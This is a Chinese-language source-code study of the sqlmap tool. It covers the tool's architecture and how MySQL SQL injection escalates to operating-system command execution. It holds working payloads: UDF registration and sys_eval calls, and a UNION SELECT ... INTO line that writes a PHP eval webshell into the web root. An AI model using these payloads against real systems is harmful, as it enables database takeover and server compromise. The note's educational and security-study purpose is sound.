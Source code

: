 SQLMAP 源码审计
===

研究 sqlmap 源码来尝试充分理解 sql 注入原理;

> 以下主要是基于 MySQL 数据库的分析;

## 基本架构

### 结构分析

1. 入口层: `sqlmap.py`
   
    主函数入口, 初始化全局, 调用控制器 (`controller.py`);

2. 控制层: `controller.py`

    组织扫描生命周期;

3. 核心逻辑层: (`/core/..`)
   
    `lib/core/`:

    - `data.py`: 全局状态 (conf 配置、kb 知识库、paths 等)。
    - `common.py`: 通用工具函数。
    - `option.py`:参数处理。
    - `settings.py`: 常量定义 (payload 模板、超时、默认配置)。

4. 插件层 (DBMS plugins)
   
   `plugins/dbms/`: 根据数据库类型分类

    - `mysql/`, `mssql/`, `oracle/`, `portgresql/` 等
    - 每个目录下有:
      - `enumeration.py`: 枚举信息(用户, 数据库, 版本);
      - `filesystem.py`: 读写文件操作;
      - `fingerprint.py`: DBMS 版本检测;

5. 利用层 (Takeover/Exploitation)
   
    `lib/takeover/`:

    - `abstraction.py`: 抽象命令执行;
    - `udf.py`: 跨数据库的 udf 上传/注册;
    - `web.py`: webshell;

    统一不同 DBMS 的提权/RCE 实现;

6. 请求层 (Request / Injection)

    - `lib/request/`
        - `inject.py`: 核心注入点测试逻辑。
        - `basic.py`: 基础请求。
        - `connect.py`: 目标连接。
        - `templates/`: payload 模板。


7. 工具层 (Utils)
   
   - lib/utils/
        
        - `hash.py`: hash 破解。
        - `payload.py`: payload 构造。
        - `shell.py`: osShell/sqlShell 控制器。

    工具方法 & 交互模式支持;

### 总结

总的来说有三层:

- 用户接口层: 参数解析 + shell 输入
- 控制调度层: controller，决定扫描流程
- 后端执行层: request 发包、plugins 插件实现、takeover 提权

## `-os-shell` 执行任意代码

sqlmap 支持 `--os-shell` 来尝试直接执行系统指令; 

### 手工注入分析

#### UDF 提权

- 原理

**UDF (User Defined Function)**, 也就是**用户自定义函数**, MySQL 允许用 C 写共享库 (`.so` / `.dll`), 放到 `plugin_dir` 下, 再通过 `CREATE FUNCTION` 来注册成 SQL 函数;

换句话说可以构造一个恶意的 UDF 函数, 调用 `sys_eval()` / `sys_exec()` 来执行任意系统命令;

- 前置条件:

1. 需要 `FILE` 权限 或 `SUPER` 权限。
   
2. 需要知道/可写 `plugin_dir` 的路径。在注入中这种全局系统变量通常这样来查:
    ```sql
    UNION SELECT variable_value FROM information_schema.GLOBAL_VARIABLES WHERE variable_name = 'plugin_dir'
    -- 或者 SESSION_VARIABLES 
    ```

3. DB 账户有 `CREATE FUNCTION` 权限;

例如:

```sql
SELECT @@plugin_dir;  
-- 上传恶意 UDF 到 plugin_dir（通过 SQL 注入写文件，或其他手段）  
CREATE FUNCTION sys_eval RETURNS string SONAME 'udf.so';  
SELECT sys_eval('id');  
```

#### `SELECT .. INTO` 写马

如果 mysql 有 FILE 权限, 直接用:

```sql
... union select 1,'<?php eval($_POST[123]);?>' into '/var/www/html/shell.php'
```

这样的方式写马就行了; 前置条件也很简单, 直到网站根目录, mysql 有写文件权限;

#### 插件 / 组件加载

- 原理:

MySQL 5.1+ 引入 `INSTALL PLUGIN`, 可以动态加载 `.so` 文件; 那么上传一个恶意的 `.so` 文件即可;

- 前置条件:

1. 需要 `SUPER` 权限。 
2. 对 `plugin_dir` 可写。

#### 内置函数间接利用

MySQL 本身没有直接执行系统命令的函数, 但有时能利用:

- `LOAD DATA INFILE` 来进行文件写入辅助;
- 配合 trigger / event / procedure 作持久化控制;

#### 总览

要在 MySQL 注入里实现 RCE, 通常**至少需要满足以下之一**:

1. 数据库用户有 **`FILE` 权限**;
2. 数据库用户有 `SUPER` / `CREATE FUNCTION` 权限, 能上传 `.so` / `.dll` 文件来进行 UDF 系统命令执行;
3. 配置不当, 如 `secure_file_priv`, 使得数据库可以往其他路径写入文件;

### 源码分析

sqlmap 对这部分进行了封装, 大致来说: `/lib/core/shell.py` 为输入法 / 历史记录; 真正的处理后端在提权部分位于 `lib.takeover.udf` 等文件中:

#### `udf.py`

关键代码:

- 默认调用 `sys_exec()` 来执行 UDF, 此处需要注入点支持 `;` + 堆叠查询 (stacked queries) ;

```python
def udfExecCmd(self, cmd, silent=False, udfName=None):
    if udfName is None:
        udfName = "sys_exec"
    cmd = unescaper.escape(self.udfForgeCmd(cmd))
    return inject.goStacked("SELECT %s(%s)" % (udfName, cmd), silent)
```

- 尝试捕获 UDF 结果:

    利用一个辅助中转表, 先插再查来实现类似回显的效果; 
    
> `sys_exec()` 这个函数是只执行, 不回显, 而 `sys_eval()` 能返回执行结果, 但不同 DB 行为差异很大, 可能存在截断或者乱码等; 因此 sqlmap 这里使用了一个辅助中转表;

```python
def udfEvalCmd(self, cmd, first=None, last=None, udfName=None):
    if udfName is None:
        udfName = "sys_eval"
    ...
    inject.goStacked("INSERT INTO %s(%s) VALUES (%s(%s))" % (self.cmdTblName, self.tblField, udfName, cmd))
    output = unArrayizeValue(inject.getValue("SELECT %s FROM %s" % (self.tblField, self.cmdTblName), ...))
    inject.goStacked("DELETE FROM %s" % self.cmdTblName)
```

-   上传共享库 (核心步骤)

```python
def udfInjectCore(self, udfDict):
    self.udfSetRemotePath()  # 目标服务器共享库存放路径
    checkFile(self.udfLocalFile)
    written = self.writeFile(self.udfLocalFile, self.udfRemoteFile, "binary", forceCheck=True)
    ...
    self.udfCreateFromSharedLib(udf, inpRet)
```

首先由 DBMS 插件确定远程路径; 然后上传并记录 `.so` 文件, 然后注册为 udf;

- 用户交互式创建 UDF:

```python
def udfInjectCustom(self):
    if Backend.getIdentifiedDbms() not in (DBMS.MYSQL, DBMS.PGSQL):
        ...
    if not isStackingAvailable() and not conf.direct:
        ...
    if not conf.shLib:
        self.udfLocalFile = readInput("what is the local path of the shared library?")
    ...
    self.udfs[udfName] = { "input": [...], "return": retType }
    success = self.udfInjectCore(self.udfs)
```

可以手动指定共享库路径, 和 udf 的名字, 参数, 返回值;